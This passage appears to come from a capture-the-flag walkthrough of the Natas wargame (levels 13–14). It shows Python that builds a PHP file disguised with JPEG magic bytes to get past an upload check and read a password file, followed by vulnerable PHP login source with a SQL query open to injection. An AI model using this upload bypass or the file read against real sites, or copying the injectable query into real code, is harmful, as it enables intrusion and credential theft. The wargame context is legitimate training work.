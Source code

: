 - As we can see the source code uses `exif_imagetype` to verify that the uploaded file is indeed an image file. This does not, however, check for the actual image headers and instead checks for some `magic number` at the beginning of the file.
- For `jpeg` file, the function checks for the presence of the following byte sequence:

    FF D8 FF E0

- All we have to do now is to put these bytes at the top of our `php` code, edit the HTML source to edit the filename to have an extension of `.php` as before, and then, upload the code. The file will, thus, have bypassed the `exif_imagetype` check.
- The code to create the `php` file is as follows:

    ```python
    ## write the magic bytes, open file in binary mode
    f = open('level13.php', 'wb')
    f.write(b'\xFF\xD8\xFF\xE0')
    f.close()
    ## append the php code
    f = open('level13.php', 'a')
    f.write('<?php $pass = file_get_contents("/etc/natas_webpass/natas14");
    	echo "password= ".$pass; ?>')
    f.close()
    ```

- After uploading and opening the `level13.php` file created from the above code, we should be able to see the password for `natas14`.
- The output, however, will also display the four bytes of the `magic number`. This is because anything outside the `php` tags are echoed as is by the server to the browser. These bytes may not be rendered and question marks(?) may be displayed instead.
- Password

## 15 Level 14 → Level 15

- The landing page for `natas14` shows us a `post` form with the fields `username` and `password`.
- We also have access to the `php` source code:

    ```php
    <?
    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas14', '<censored>');
        mysql_select_db('natas14', $link);
        
        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        if(mysql_num_rows(mysql_query($query, $link)) > 0) {
                echo "Successful login! The password for natas15 is <censored><br>";
        } else {
                echo "Access denied!<br>";
        }
        mysql_close($link);
    } else {
    ?>
    ```
